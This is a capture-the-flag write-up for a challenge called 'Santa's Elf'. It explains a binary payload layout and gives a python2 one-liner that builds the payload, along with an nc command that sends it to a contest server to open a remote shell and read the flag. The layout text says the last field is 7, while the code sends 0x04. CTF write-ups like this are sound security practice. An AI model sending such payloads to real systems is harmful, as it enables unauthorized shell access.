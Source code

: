 ### Santa's Elf

Flag: ACS_IXIA_CTF{not_the_elf_you_were_thinking_about}

The payload is the following:
- 4 bytes from DAT_00100ad8 (ELF header, 0x00-0x03);
- 20 random bytes (0x04 - 0x17);
- 0x0000deadbeef (0x18 - 0x1f);
- 16 random bytes (0x20 - 0x2f);
- 7 (PROT_EXEC|PROT_WRITE|PROT_READ for mmap, 0x30 - 0x39).

Then build the payload and send it to the server in order to open a remote shell:
```
python2 -c 'print "\x7f\x45\x4c\x46" + "A" * 20 + "\xef\xbe\xad\xde" + "\x00" * 4 + "A" * 16 + "\x04\x00\x00\x00"' > payload
cat payload - | nc 141.85.224.118 31337
cat /home/ctf/flag
ACS_IXIA_CTF{not_the_elf_you_were_thinking_about}
```

[Back](../../ixia_ctf.md)
